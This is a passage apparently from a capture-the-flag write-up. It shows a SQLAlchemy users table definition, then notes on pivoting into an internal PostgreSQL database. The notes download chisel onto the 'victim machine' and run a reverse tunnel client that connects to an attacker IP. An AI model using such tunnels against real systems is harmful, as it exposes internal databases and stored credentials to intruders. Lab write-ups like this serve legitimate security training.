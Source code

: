 ``` bash
# SQLAlchemy for users
engine = create_engine(DATABASE_URL)
metadata = MetaData()
users = Table(
    "users",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("email", String(50)),
    Column("username", String(50)),
    Column("password", String(128) ,nullable=False)
)


# Databases query builder
database = Database(DATABASE_URL)
```

* Now we should find a way to connect to the database
* We use chisel tool for port forwarding
* For interacting with PostgreSQL database, we need to forward * the port with chisel, which I have to install
* Binary used from main repo chisel_1.7.7_linux_amd64.gz wget it to the victim machine
* SERVER: chisel server --port 9002 --reverse
* CLIENT: ./chisel client -v attackerIP:9002 R:5432:172.22.0.1:5432


![image](./assets/img/mentor-tunneling-chisel.png)
